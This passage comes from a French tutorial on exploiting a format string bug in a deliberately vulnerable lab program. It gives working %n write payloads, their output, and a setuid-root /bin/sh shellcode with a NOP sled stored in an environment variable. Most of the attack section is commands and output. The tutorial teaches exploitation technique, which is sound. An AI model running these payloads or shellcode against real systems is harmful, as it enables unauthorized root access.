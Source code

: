 Comme on remplace aussi `%.8x` par `%n` il faut aussi penser à ajouter deux octets de padding supplémentaires pour conserver la même longueur pour `argv[1]` :  

```console
./vuln $'\xcc\xfc\xff\xbf'%.134513804x%131\$nBBB
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffccc
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffcc8, y=0xbffffcc4, z=0xbffffcc0
--- snip ---000000000000000000001BBB
#end  a=1, b=2, c=3 - x=0xbffffcc8, y=0xbffffcc4, z=0xbffffcc0
super secret area
```

Bingo, on est passé sans avoir à nous servir du pointeur sur pointeur sur fonction, situation qui a peu de chances d'arriver dans la réalité :)  

Utiliser un shellcode
---------------------

Détourner le flot d'exécution du programme c'est bien. C'est bien mieux si on peut faire exécuter des instructions à nous.  

Pour cela je place un shellcode setuid 0 + exec /bin/sh dans l'environnement :  

```console
oj@hell:~$ export SHELLCODE=`perl -e 'print "\x90"x200 . "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"'`
```

Le trainer a été concu pour afficher entre autres l'adresse de cette variable d'environnement :  

```console
oj@hell:~$ ./vuln AAAA%.000000000x%131\$.8xB
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffbdc
shellcode addr=0xbffffddb
#start a=1, b=2, c=3 - x=0xbffffbd8, y=0xbffffbd4, z=0xbffffbd0
AAAA13030302eB
#end  a=1, b=2, c=3 - x=0xbffffbd8, y=0xbffffbd4, z=0xbffffbd0
Program terminated with success
```

Les adresses des variables ont à nouveau changé car le shellcode prend de la place dans la pile et provoque le décalage des adresses.  

On retrouve cette fois `argv[1]` en position 130 sans padding :  

```console
oj@hell:~$ ./vuln AAAA%.000000000x%130\$.8x
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffbdc
shellcode addr=0xbffffddb
#start a=1, b=2, c=3 - x=0xbffffbd8, y=0xbffffbd4, z=0xbffffbd0
AAAA141414141
#end  a=1, b=2, c=3 - x=0xbffffbd8, y=0xbffffbd4, z=0xbffffbd0
Program terminated with success
```

Ici on peut écraser `ptr2f` par `0xbffffddb`. Comme tout à l'heure on retire 4 octets soit au final 3221224919 octets à écrire.  
